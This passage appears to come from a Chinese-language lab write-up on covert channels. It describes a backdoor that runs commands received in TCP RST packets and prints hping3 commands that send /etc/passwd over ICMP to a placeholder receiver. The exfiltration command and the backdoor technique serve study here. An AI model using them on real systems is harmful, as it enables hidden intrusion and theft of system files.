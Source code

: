 ![](picture/Aspose.Words.eec03957-5f4b-444d-aa83-6455df2110ce.086.jpeg)

由上述實驗結果我們可以發現在 10.0.2.15 中建立的後門藉由傳送包含關鍵字 secret 後續接指令的 TCP RST 封包，其腳本會將指令執行結果放置回傳的 TCP RST 封包中的 Payload 中。 

File Transfer 

我們可以使用  hping  傳輸完整的檔案，而非傳輸單獨的指令。以下是設置接收 端的方法：

hping3 -1  傳送端  -9 signature -I eth0 

發送端傳送檔案方法：

hping3 -1  接收端  -e signature -E /etc/passwd -d 2000 

注：使用  -d  標誌設置適當的文件大小，hping  將自動分段傳送。無法使用“-- safe”標誌傳輸文件。

檔案傳輸結果：

![](picture/Aspose.Words.eec03957-5f4b-444d-aa83-6455df2110ce.087.jpeg)

封包擷取結果：
